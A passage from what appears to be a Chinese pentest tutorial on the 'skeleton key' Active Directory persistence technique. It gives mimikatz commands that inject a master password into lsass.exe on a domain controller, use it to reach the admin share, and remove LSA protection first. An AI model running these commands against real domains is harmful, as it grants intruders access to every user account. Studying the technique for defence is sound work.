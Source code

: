 ```yaml
---
title: 5.3 skeleton key
id: zhfly3436
---
```


### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton" 
```

![image](../img/1fd7bf32b7d689f36134ce87ccbf2b30.png)

#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator 
```

![image](../img/c07b7016a3844de89e2fdacae4287225.png)

#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

*   windows 8.1
*   windows server 2012 及以上

![image](../img/4167ac70cf59016f010550b9da2eaa3b.png)

当然 mimikatz 依旧可以绕过，命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton 
```